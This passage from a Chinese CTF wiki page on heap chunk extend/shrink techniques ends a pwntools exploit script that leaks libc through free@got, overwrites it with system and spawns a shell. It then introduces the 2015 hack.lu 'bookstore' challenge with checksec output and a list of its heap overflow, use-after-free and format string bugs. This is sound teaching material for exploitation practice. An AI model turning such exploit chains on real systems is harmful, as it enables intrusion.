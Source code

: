 ```python
# heap 1's content to fastbin 0x20
delete(1)
# new heap 1's struct will point to old heap 1's content, size 0x20
# new heap 1's content will point to old heap 1's struct, size 0x30
# that is to say we can overwrite new heap 1's struct
# here we overwrite its heap content pointer to free@got
create(0x30, p64(0) * 4 + p64(0x30) + p64(heap.got['free']))  #1
# leak freeaddr
show(1)
r.recvuntil("Content : ")
data = r.recvuntil("Done !")

free_addr = u64(data.split("\n")[0].ljust(8, "\x00"))
libc_base = free_addr - libc.symbols['free']
log.success('libc base addr: ' + hex(libc_base))
system_addr = libc_base + libc.symbols['system']
#gdb.attach(r)
# overwrite free@got with system addr
edit(1, p64(system_addr))
# trigger system("/bin/sh")
delete(0)
r.interactive()
```

## 2015 hacklu bookstore
[题目链接](https://github.com/ctf-wiki/ctf-challenges/tree/master/pwn/heap/chunk-extend-shrink/2015_hacklu_bookstore)

### 基本信息

```shell
➜  2015_hacklu_bookstore git:(master) file books    
books: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, for GNU/Linux 2.6.32, BuildID[sha1]=3a15f5a8e83e55c535d220473fa76c314d26b124, stripped
➜  2015_hacklu_bookstore git:(master) checksec books    
[*] '/mnt/hgfs/Hack/ctf/ctf-wiki/pwn/heap/example/chunk_extend_shrink/2015_hacklu_bookstore/books'
    Arch:     amd64-64-little
    RELRO:    No RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
```

可以看出该程序是动态链接的 64 位程序，主要开启了 Canary 与 NX 保护。

### 基本功能

该程序的主要功能是订书，具体如下

- 最多可以订购两本书。
- 根据编号来选择订购第几本书，可以为每本书添加对应的名字。然而在添加名字处出现了任意长度堆溢出的漏洞。
- 根据编号来删除 order，但是这里只是单纯地 free 掉，并没有置为 NULL，因此会出现 use after free 的漏洞。
- 提交订单，将两本书的名字合在一起。这里由于上面堆溢出的问题，这里也会出现堆溢出的漏洞。
- 此外，在程序退出之前存在一个**格式化字符串漏洞**。
